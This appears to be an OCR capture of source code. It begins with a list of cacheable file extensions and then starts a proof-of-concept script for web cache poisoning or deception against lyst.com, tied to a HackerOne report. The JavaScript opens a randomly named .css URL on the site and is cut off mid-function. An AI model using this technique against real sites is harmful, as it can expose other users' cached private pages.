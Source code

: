 ```
GZ  
MKV  
PPT  
TIFF  
ZST  
AVIF  
DOCX  
ICO  
MP3  
PPTX  
TTF  
APK  
DMG  
ISO  
MP4  
PS  
WEBM  
BIN  
EJS  
JAR  
OGG  
RAR  
WEBP  
BMP  
EOT  
JPG  
OTF  
SVG  
WOFF  
BZ2  
EPS  
JPEG  
PDF  
SVGZ  
WOFF2  
CLASS  
EXE  
JS  
PICT  
SWF  
XLS  
CSS  
FLAC  
MID  
PLS  
TAR  
XLSX  

# LYST Web Cache Poisoning POC Script 
https://hackerone.com/reports/631589

<html>
  <head> </head>
  <body>
    <script>
      var cachedUrl = "https://www.lyst.com/" + generateId() + ".css";
      const popup = window.open(cachedUrl);
      function generateId() {
        var content = "";
        const alphaWithNumber = "QWERTZUIOPASDFGHJUKLYXCVBNM1234567890";
        for (var i = 0; i < 10; i++) {
          content += alphaWithNumber.charAt(
            Math.floor(Math.random() * alphaWithNumber.length)
```